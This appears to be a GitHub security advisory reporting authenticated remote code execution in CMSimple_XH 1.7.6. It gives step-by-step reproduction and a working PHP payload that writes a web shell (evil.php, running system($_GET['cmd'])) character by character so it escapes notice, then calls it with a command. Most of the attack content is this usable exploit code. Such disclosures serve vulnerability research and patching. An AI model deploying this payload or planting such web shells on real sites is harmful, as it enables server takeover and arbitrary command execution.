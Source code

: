 # RCE in cmsimple-xh 1.7.6
Similarly to https://github.com/advisories/GHSA-56jv-hmch-qm6c , it is possible to upload a PHP payload to execute commands on the host. It requires being **Authenticated**.

Version: CMSimple_XH 1.7.6

## Steps to reproduce:
1. Login as Admin
2. Move to `/?file=content`
3. Add the following code into **Content file**:
```php
file_put_contents('evil.php', '');
$fileHandle = fopen('evil.php', 'a');
fwrite($fileHandle, '<');
fwrite($fileHandle, '?');
fwrite($fileHandle, 'p');
fwrite($fileHandle, 'h');
fwrite($fileHandle, 'p');
fwrite($fileHandle, ' ');
fwrite($fileHandle, 'system');
fwrite($fileHandle, '(');
fwrite($fileHandle, '$');
fwrite($fileHandle, '_GET[');
fwrite($fileHandle, '"cmd"]');
fwrite($fileHandle, ');');
fwrite($fileHandle, '?');
fwrite($fileHandle, '>');
fclose($fileHandle);
```
4. Save and refresh
5. Move to `/evil.php?cmd=id`

## Screenshots:

![1](1.png)
![2](2.png)
![3](3.png)

## Note
You can get RCE with easier steps, this payload is for uploading a php file and not breaking the CMS.

It is okay to have RCE if you are an Admin in only user CMS. So not that critical.
